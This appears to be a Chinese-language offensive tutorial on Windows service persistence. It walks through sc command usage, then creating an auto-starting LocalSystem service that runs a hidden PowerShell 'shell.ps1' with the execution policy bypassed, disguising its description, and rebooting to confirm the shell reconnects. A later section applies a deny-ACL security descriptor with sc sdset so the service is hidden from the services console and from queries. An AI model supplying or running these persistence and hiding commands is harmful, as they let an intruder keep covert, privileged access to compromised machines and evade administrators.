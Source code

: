 # 服务介绍

服务 (即， 以前的 NT 服务) 使您能够创建在它们自己的 Windows 会话中可长时间运行的可执行应用程序。这些 服务可以在计算机启动时自动启动， 可以暂停和重新启动而且不显示任何用户界面。这种服务非常适合在服务器上 使用， 或任何时候， 为了不影响在同一台计算机上工作的其他用户， 需要长时间运行功能时使用。还可以在不同于 登录用户的特定用户帐户或默认计算机帐户的安全上下文中运行服务。

输入 `SC/?` 出现以下提示

```
描述: SC 是用来与服务控制管理器和服务进行通信的命令行程序。
用法 : sc <server> [command] [service name] <option1> <option2>...
命令:
query-----------查询服务的状态，  或枚举服务类型的状态。
queryex---------查询服务的扩展状态，  或枚举服务类型的状态。
start-----------启动服务。
pause-----------向服务发送  PAUSE 控制请求。
interrogate-----向服务发送  INTERROGATE 控制请求。
continue--------向服务发送  CONTINUE 控制请求。
stop------------向服务发送  STOP 请求。
config----------更改服务的配置(永久)。
description-----更改服务的描述。
failure---------更改失败时服务执行的操作。
failureflag-----更改服务的失败操作标志。
sidtype---------更改服务的服务  SID 类型。
privs-----------更改服务的所需特权。
managedaccount--更改服务以将服务帐户密码标记为由  LSA 管理。
qc--------------查询服务的配置信息。
qdescription----查询服务的描述。
qfailure--------查询失败时服务执行的操作。
qfailureflag----查询服务的失败操作标志。
qsidtype--------查询服务的服务  SID 类型。
qprivs----------查询服务的所需特权。
qtriggerinfo----查询服务的触发器参数。
qpreferrednode--查询服务的首选  NUMA 节点。
qmanagedaccount-查询服务是否将帐户与  LSA 管理的密码结合使用。
qprotection-----查询服务的进程保护级别。
quserservice----查询用户服务模板的本地实例。
delete ----------(从注册表中)删除服务。
create----------创建服务(并将其添加到注册表中)。
control---------向服务发送控制。
sdshow----------显示服务的安全描述符。
sdset-----------设置服务的安全描述符。
showsid---------显示与任意名称对应的服务  SID 字符串。
triggerinfo-----配置服务的触发器参数。
preferrednode---设置服务的首选  NUMA 节点。
GetDisplayName--获取服务的  DisplayName。
GetKeyName------获取服务的  ServiceKeyName。
EnumDepend------枚举服务依赖关系。
```

因为我们使用的是create。所以输入 `sc create`![img](https://img.gyxnb.top/img/clip_image008-168395960828320.gif)得到以下提示

```
描述: 在注册表和服务数据库中创建服务项。
用法: sc <server> create [service name] [binPath= ] <option1> <option2>...
注意: 选项名称包括等号。等号和值之间需要一个空格。
选项:	在注册表和服务数据库中创建服务项。
sc <server> create [service name] [binPath= ] <option1> <option2>... 选项名称包括等号。等号和值之间需要一个空格。
type= <own|share|interact|kernel|filesys|rec|userown|usershare>(默认  = own) start= <boot|system|auto|demand|disabled|delayed-auto>(默认  = demand)      error= <normal|severe|critical|ignore>(默认  = normal)
binPath= <.exe 文件的  BinaryPathName>
group= <LoadOrderGroup>
tag= <yes |no>
depend= <依存关系(以  / (斜杠)分隔)>
obj= <AccountName|ObjectName>(默认= LocalSystem)
DisplayName= <显示名称>
password= <密码>
```

# 服务维持权限                                      [ ](af://n13)

根据以上的提示信息我们来创建一个服务让他启动ps1脚本(注意空格)

```
1、创建服务
sc create shell start= auto binPath= "cmd.exe /k powershell.exe -w hidden -ExecutionPolicy Bypass -NoExit -File C:\Users\Administrator\Desktop\keep\shell.ps1" obj= Localsystem  

2、对该服务进行伪装
sc description "shell" "绝对安全的shell哈哈哈"

3、设置服务的自动启动
sc config "shell" start= auto

4、然后启动该服务
net start "服务名"
```

![img](https://img.gyxnb.top/img/clip_image010-168395960828321.gif)

接下来去查看服务是否已经创建【`services.msc`】

![img](https://img.gyxnb.top/img/clip_image011.jpg)

接下来重启电脑看看能不能连接

![img](https://img.gyxnb.top/img/clip_image013.gif)

# 隐藏服务                                          [ ](af://n29)

这种创建服务的方法隐藏性太弱， 直接在服务里就能看到， 可以在创建完服务后， 使用以下命令将创建的服务隐 藏， 这样不论是在服务中， 还是使用命令都查不到这个服务。

 

```
sc sdset shell "D:(D;;DCLCWPDTSDCC;;;IU)(D;;DCLCWPDTSDCC;;;SU)(D;;DCLCWPDTSDCC;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;; ;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

![img](https://img.gyxnb.top/img/clip_image015.gif)

使用以下的命令进行恢复

```
sc sdset shell "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

